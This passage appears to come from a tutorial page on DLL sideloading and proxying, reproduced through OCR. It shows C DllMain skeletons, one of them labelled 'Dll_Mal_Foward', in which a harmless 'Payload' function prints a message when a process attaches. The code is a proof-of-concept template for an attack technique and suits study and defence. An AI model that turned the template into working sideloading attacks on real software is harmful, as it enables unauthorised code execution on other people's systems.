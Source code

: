 ```c
}

/*---------------------------[ DllMain ]---------------------------*/

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
    case DLL_PROCESS_ATTACH:
		ProcAtt();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## Dll_Mal_Foward

```c
#include <windows.h>

/*---------------------------[ Payload ]---------------------------*/

void ProcAtt(){

	printf("[I] DLL Sideloading in PROCESS ATTACH >:)\n");

}


/*---------------------------[ DllMain ]---------------------------*/

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
    case DLL_PROCESS_ATTACH:
		ProcAtt();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

# Two ways to Proxying
